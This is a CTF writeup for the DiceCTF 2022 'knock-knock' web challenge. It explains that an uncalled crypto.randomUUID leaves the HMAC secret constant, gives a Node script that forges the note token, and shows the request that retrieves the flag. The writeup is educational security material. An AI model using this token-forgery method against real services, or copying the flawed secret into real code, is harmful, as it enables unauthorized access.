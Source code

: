 # DiceCTF knock-knock Writeup

## Category

Web Exploitation

## Description

> Knock knock? Who's there? Another pastebin!!

## Writeup

The challenge provides the link: [knock-knock.mc.ax](https://knock-knock.mc.ax/)

In the page you can create a new note and read existing ones (if you know the correct id and corresponding token).

The source code of the backend is provided:

```js
const crypto = require('crypto');

class Database {
  constructor() {
    this.notes = [];
    this.secret = `secret-${crypto.randomUUID}`;
  }

  createNote({ data }) {
    const id = this.notes.length;
    this.notes.push(data);
    return {
      id,
      token: this.generateToken(id),
    };
  }

  getNote({ id, token }) {
    if (token !== this.generateToken(id)) return { error: 'invalid token' };
    if (id >= this.notes.length) return { error: 'note not found' };
    return { data: this.notes[id] };
  }

  generateToken(id) {
    return crypto
      .createHmac('sha256', this.secret)
      .update(id.toString())
      .digest('hex');
  }
}

const db = new Database();
db.createNote({ data: process.env.FLAG });

const express = require('express');
const app = express();

app.use(express.urlencoded({ extended: false }));
app.use(express.static('public'));

app.post('/create', (req, res) => {
  const data = req.body.data ?? 'no data provided.';
  const { id, token } = db.createNote({ data: data.toString() });
  res.redirect(`/note?id=${id}&token=${token}`);
});

app.get('/note', (req, res) => {
  const { id, token } = req.query;
  const note = db.getNote({
    id: parseInt(id ?? '-1'),
    token: (token ?? '').toString(),
  });
  if (note.error) {
    res.send(note.error);
  } else {
    res.send(note.data);
  }
});

app.listen(3000, () => {
  console.log('listening on port 3000');
});
```


We can observe that the flag is saved in the first note (so with id 0), if we find a way to generate a valid token for each id we can request the flag with the GET request `https://knock-knock.mc.ax/note?id=0&token=CORRECT_TOKEN`.

The server checks if the given token is equal to the one generated for the given id with the following function

```js
crypto.createHmac('sha256', this.secret).update(id.toString()).digest('hex');
```

where
```js
this.secret = `secret-${crypto.randomUUID}`;
```

The function `crypto.randomUUID()` returns a pseudo-random string, for example `fb5c81ab-c3ae-40c4-9586-29a7e459e263`, so we could think that `this.secret` will be an unpredictable random string similar to `secret-fb5c81ab-c3ae-40c4-9586-29a7e459e263`.

But the code doesn't call `crypto.randomUUID()`, because there aren't the parenthesis and we can test that `secret-${crypto.randomUUID}` outputs the code of the function as text, so the secret key will be the following string:

```
secret-function randomUUID(options) {
  if (options !== undefined)
    validateObject(options, 'options');
  const {
    disableEntropyCache = false,
  } = options || {};

  validateBoolean(disableEntropyCache, 'options.disableEntropyCache');

  return disableEntropyCache ? getUnbufferedUUID() : getBufferedUUID();
}
```

Having the constant secret key we can recreate the token corresponding to any id, in particular we can calculate the token for id 0:

```js
const crypto = require('crypto');
let secret = `secret-${crypto.randomUUID}`;
let id = 0;
console.log(crypto.createHmac('sha256', secret).update(id.toString()).digest('hex'));
```

that generates the string `7bd881fe5b4dcc6cdafc3e86b4a70e07cfd12b821e09a81b976d451282f6e264`.

So the flag can be retrieved with the GET request `https://knock-knock.mc.ax/note?id=0&token=7bd881fe5b4dcc6cdafc3e86b4a70e07cfd12b821e09a81b976d451282f6e264` (for example performed using a browser).

## Flag

The page will respond with the flag `dice{1_d00r_y0u_d00r_w3_a11_d00r_f0r_1_d00r}`

-----

If you find errors or you want to contribute to this writeup go to the [GitHub repository](https://github.com/francesco-scar/CTF-writeups/tree/main/DiceCTF/2022/knock-knock) or contact me [opening an issue](https://github.com/francesco-scar/CTF-writeups/issues).
